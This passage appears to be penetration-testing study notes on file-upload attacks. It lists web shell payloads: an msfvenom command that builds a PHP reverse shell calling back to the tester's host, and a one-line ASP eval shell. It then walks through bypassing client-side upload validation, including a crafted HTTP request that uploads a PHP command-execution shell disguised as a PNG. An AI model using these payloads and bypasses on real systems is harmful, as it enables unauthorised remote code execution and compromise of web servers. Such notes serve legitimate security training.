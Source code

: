 Or custom reverse web shell with msfvenom: `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` 
- .NET
	``` asp
	<% eval request('cmd') %>
	```
---
# Bypassing Filters
## File Extension Validation
### Client-Side Validation
- If the file format validation is on the client-side, try bypass it by:
	- Modify the upload request to the back-end server.
	- Manipulate the front-end code to disable these type validations.
#####  **Scenario**:
- We got a form to upload a profile pic to user account
	``` HTML
	<form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}">
		<input type="file" name="uploadFile" id="uploadFile" onChange="showImage()" accept=".jpg,.jpeg,.png">
		<img src='/profile_images/pic.png' class='profile-image' id='profile-image'>
		<input type="submit" value="Upload" id="submit">
	</form>
	```
##### Back-end Request Modification
- Sending photo and inspect the request
``` HTTP
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywRdo2lC1tHQrJPoV

------WebKitFormBoundarywRdo2lC1tHQrJPoV
Content-Disposition: form-data; name="uploadFile"; filename="ping.png"
Content-Type: image/png

[....SNIP....]
------WebKitFormBoundarywRdo2lC1tHQrJPoV--
```
- Manipulate the request. (Change the `filename` and its `content`, We may also modify the `Content-Type` of the uploaded file.
``` HTTP
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywRdo2lC1tHQrJPoV

------WebKitFormBoundarywRdo2lC1tHQrJPoV
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>
------WebKitFormBoundarywRdo2lC1tHQrJPoV--
```
##### Disabling Front-end Validation
- Open the web page inspector on the browser [CTRL+SHIFT+C] to see the form HTML
	``` HTML
	<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
	```
	- The file input specifies (`.jpg,.jpeg,.png`) but we can bypass this by selecting All Files on the file explorer.